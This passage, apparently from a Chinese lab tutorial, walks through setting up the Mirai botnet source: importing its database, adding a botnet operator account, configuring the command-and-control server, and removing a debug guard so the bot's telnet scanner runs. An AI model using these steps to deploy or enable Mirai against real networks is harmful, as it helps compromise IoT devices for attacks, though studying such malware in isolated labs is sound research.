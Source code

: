 修改完成之后启动数据库，将 db.sql 文件导入到数据库中
这里我的数据库用户为`root`，密码为`123456`

```bash
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# service mysql start
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# cat db.sql | mysql -uroot -p
Enter password: 123456
```

在数据库中添加 mirai 用户，这里账号密码可以随意设置  

用户账号:mirai-user 用户密码:mirai-pass

```bash
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# mysql -uroot -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5
Server version: 5.7.29-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mirai;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
Query OK, 1 row affected (0.00 sec)

mysql> exit
```

重新修改 mirai/cnc/main.go 中的数据库常量

```bash
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# vim ../mirai/cnc/main.go
将数据库密码修改为当前数据库密码
const DatabaseAddr string   = "127.0.0.1"  //数据库连接地址
const DatabaseUser string   = "root"       //数据库用户
const DatabasePass string   = "123456"     //数据库密码
const DatabaseTable string  = "mirai"      //数据库名
```

### debug 模式启用扫描

由于源码默认在 debug 模式中关闭了 scanner 功能，bot/main.c 中注释后即可运行

```c
#endif

    attack_init();
    killer_init();
// #ifndef DEBUG
#ifdef MIRAI_TELNET
    scanner_init();
#endif
// #endif
```
